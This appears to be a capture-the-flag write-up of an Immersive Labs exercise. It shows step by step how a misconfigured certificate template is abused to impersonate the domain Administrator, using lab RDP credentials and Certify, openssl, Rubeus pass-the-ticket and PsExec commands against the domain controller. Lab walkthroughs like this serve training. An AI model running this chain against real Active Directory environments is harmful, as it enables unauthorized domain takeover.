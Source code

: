 ```yaml
---
date: 2025-03-29
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.12 – Active Directory Certificate Services"
tags: ['kerberos', 'powershell', 'privilege escalation', 'rce', 'windows']

description: "Kerberos Ep.12 – Active Directory Certificate Services - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services


![image1](../resources/7d7a429777be4cf19f3ba70208d789a8.png)

# ![image2](../resources/c4da4ac2027b4e3a91982717374c9066.png)

- RDP:
```bash
xfreerdp /v:10.102.155.250 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image3](../resources/a9a5876ac10240f8aad2da637531d87b.png)

- Find vulnerable templates:
```bash
.\Certify.exe find /vulnerable

```

![image4](../resources/4d5053b71ba6429599937c68df085f50.png)


![image5](../resources/1c64d1f5b87b4b968899a696cd2d43c7.png)

Certify request /ca:\<Name of the CA retrieved previously\> /template:\<Name of the vulnerable template\> /altname:\<User to impersonate\>

```bash
.\Certify.exe request /ca:DC01.krbtown.local\krbtown-DC01-CA /template:VulnTemplate /altname:Administrator

```

![image6](../resources/ad0e7c5968c24307849204d267c2bfb7.png)


![image7](../resources/e2efa4d4c0a54ff6840669157a13476a.png)


![image8](../resources/d86ff838cf6a4702bfe5e7ee7efaf3a5.png)

- Copy RSA key and Cert and paste in to Kali (cert.pem):

- Run (Leave passwords blank):
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```

![image9](../resources/8e7f664fc6dc4c7fbf64c38c6cb1ef51.png)


![image10](../resources/85bc0f8d3de64b9d8cfab52f5f1134b0.png)


![image11](../resources/85dc7fd2b2ee45a2b23c26ff1d216147.png)

- Copy that file through the mounted drive to the Windows Desktop

- Open Powershell:
```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:Administrator /ptt

```

![image12](../resources/266bfb7099854794b544397155b6ea0d.png)


![image13](../resources/10154dc0477d4a01b64822ffb0026a7f.png)

- Now that you have a TGT for the administrator user, you can use PsExec to log in to the DC:
```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```

![image14](../resources/381d5bb04ab04527a744dbb196399635.png)


![image15](../resources/4d997eadf3e646d898b9bcc6d7ae6cf2.png)
